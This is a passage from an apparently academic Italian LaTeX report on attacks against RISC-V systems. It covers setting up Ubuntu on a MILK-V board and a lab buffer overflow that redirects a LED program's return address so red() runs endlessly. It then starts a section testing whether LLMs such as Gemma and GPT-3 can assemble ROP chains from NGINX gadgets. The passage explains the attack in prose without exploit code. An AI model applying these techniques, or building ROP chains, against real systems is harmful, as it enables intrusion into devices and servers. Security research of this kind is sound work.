    
\includegraphics[width=0.3\linewidth]{images/duo_bottom.jpg}
    \caption{Scheda SD inserita nel MILK-V}
\end{figure}
\FloatBarrier
\vspace{1cm}
In questo caso per facilità è stato scelto Ubuntu 22.04.4 LTS a 64 bit. Una volta che il processo di boot è avvenuto correttamente ed è stato fatto il setup dell'OS, è possibile rimuovere la connessione seriale e collegarsi via rete tramite SSH.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/ubuntu-milkv.png}
    \caption{Avvio del sistema Ubuntu su MILK-V}
\end{figure}
\vspace{1cm}
\FloatBarrier
Si può notare come un sistema Ubuntu su processore RISC-V riesca ad utilizzare solamente 44MiB di RAM per funzionare. Dopo alcune configurazioni di base come la configurazione di rotte per comunicazione con internet e l'aggiornamento delle repository il sistema è pronto per il funzionamento.
\subsection*{Buffer Overflow su MILK-V}
\addcontentsline{toc}{subsection}{Buffer Overflow su MILK-V}
Per l'esperimento su questa scheda, si sono utilizzati i pin GPIO per accendere e spegnere in maniera elettrica del LED, fornendo un voltaggio di 3.3V in output. Per utilizzare questi pin è necessario scrivere dei driver posti a \texttt{/sys/class/gpio/export}.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/blink.jpg}
    \caption{Blink tramite GPIO}
\end{figure}
\vspace{1cm}
\FloatBarrier
Il programma che è stato analizzato fornisce due funzioni, una \textit{green()} e una \textit{red()} le quali forniscono la capacità alla scheda MILK-V di far fare un blink (breve accensione seguita da uno spegnimento) di LED rispettivamente rosso e verde.\\
Nel programma è presente una funzione vulnerabili sulla quale l'attaccante può fare buffer overflow e sovrascrivere l'indirizzo di ritorno. La normale esecuzione del programma chiama una volta il blink del LED verde ed esce con codice 0 (successful), ma se un attaccante sfrutta l'overflow, può chiamare funzioni arbitrarie e quindi la funzione \textit{red()} anche se non dovrebbe essere eseguita. In questo caso l'attaccante atterra all'indirizzo iniziale della funzione \textit{red()} in cui viene salvato l'indirizzo di ritorno sul registro \textit{ra}.\\
\newline
Dal punto di vista del flusso d'esecuzione dell'attacco, quando viene sovrascritto l'indirizzo di ritorno della funzione vulnerabile, viene salvato in \textit{ra} l'indirizzo controllato dall'attaccante. Questo vuol dire che durante al ritorno della funzione vulnerabile si salterà alla funzione \textit{red()}. Questa funzione a sua volta salva sullo stack l'indirizzo di ritorno a cui dovrebbe ritornare una volta finita la funzione e salva nel registro \textit{ra} lo stesso indirizzo che l'attaccante ha impostato arbitrariamente.\\
Durante tutta l'esecuzione della funzione \textit{red()}, si avrà quindi che il registro \textit{ra} sarà sempre caricato dello stesso indirizzo, ovvero l'indirizzo dell'inizio di \textit{red()}. Come si vede in figura \ref{ref:ra_milkv} l'effetto finale di questo salto controllato dall'attaccante è la funzione \textit{red()} chiamata all'infinito, dato che \textit{ra} rimarrà sempre con lo stesso valore dal momento dell'overflow in poi.\\
Questo nell'esecuzione del programma causerà il lampeggiamento del LED rosso finché il programma non viene interrotto, invece del singolo lampeggiamento del LED verde. Se lo stesso programma viene utilizzato come segnalatore al controllore dello scenario descritto in precedenza, potrebbe causare falsi positivi o situazioni critiche in caso di scenari di precisione.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.65\linewidth]{images/ra-milkv.png}
    \caption{Info dei registri durante l'esecuzione}
    \label{ref:ra_milkv}
\end{figure}
\vspace{1cm}
\FloatBarrier
Oltre a quanto detto, analizzando la situazione dei registri impostando un breakpoint a fine della funzione \textit{red()}, prima del return, possiamo vedere come in \textit{ra} sia caricato l'indirizzo della funzione \textit{red()} e nel registro \textit{a6}, come detto nella sezione precedente, è presente il valore \textit{0x41414141...}, ovvero ``\textit{AAAA...}" cioè il valore usato dall'attaccante per saturare il buffer.\\
Una demo del seguente attacco è presente a \href{https://github.com/BlessedRebuS/RISCV-Attacks/raw/main/img/blink-bof-demo.mov}{questo link}
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.65\linewidth]{images/blink.jpg}
    \caption{Blink del LED verde nella normale esecuzione del programma}
\end{figure}
\vspace{1cm}
\FloatBarrier
\section*{Attacchi a webserver}
\addcontentsline{toc}{section}{Attacchi a webserver}
\subsection*{Generazione di ROP-chain tramite LLM}
\addcontentsline{toc}{subsection}{Generazione di ROP-chain tramite LLM}
Uno degli scenari studiati è ispirato a \href{https://syssec.informatik.uni-due.de/fileadmin/fileupload/I-SYSSEC/research/RiscyROP.pdf}{questo paper} in cui viene sfruttata una versione di NGINX vulnerabile ad attacchi di memory corruption per costruire una ROP-chain nel webserver in esecuzione.\\
Per riprodurre questo attacco si è pensato di dare ad un LLM, in questo caso Gemma e GPT3 i gadget trovati nel binario di NGINX per vedere se fosse in grado di concatenarli ed ottenere una ROP-Chain funzionante.\\
\newline
I primi test con Gemma utilizzando 2 miliardi di parametri non hanno dato risultati significativi. Gemma non riusciva infatti, a causa del numero molto grande di token, a generare una risposta sensata in base all'input.\\
